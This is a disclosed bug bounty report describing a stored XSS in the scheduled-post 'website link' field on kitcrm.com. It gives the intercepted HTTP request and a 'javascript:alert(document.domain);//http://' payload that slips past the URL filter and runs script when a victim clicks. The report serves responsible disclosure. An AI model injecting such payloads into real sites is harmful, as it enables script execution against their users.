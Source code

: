 # Stored passive XSS at scheduled posts (kitcrm.com)

## Report Details
- **Report ID**: 214581
- **URL**: https://hackerone.com/reports/214581
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-03-19T00:26:18.178Z
- **Disclosed**: 2017-03-28T20:57:36.389Z

## Reporter
- **Username**: skavans
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hello!

There is improper filtration of the `website link` field of scheduled post. Attacker can intercept the scheduled post creation/modifying request and change it content the following way:

```http
POST /pages/175422/manual_posts/31163 HTTP/1.1
Host: kitcrm.com
<redacted>

-----------------------------15916813141840537191014403553
Content-Disposition: form-data; name="manual_post[link]"

javascript:alert(document.domain);//http://
-----------------------------15916813141840537191014403553
<redacted>
```

that leads to filter bypass and JS execution while victim clicks the link:

{F169880}


## Attachments
- ______________2017-03-19___3.24.18.png
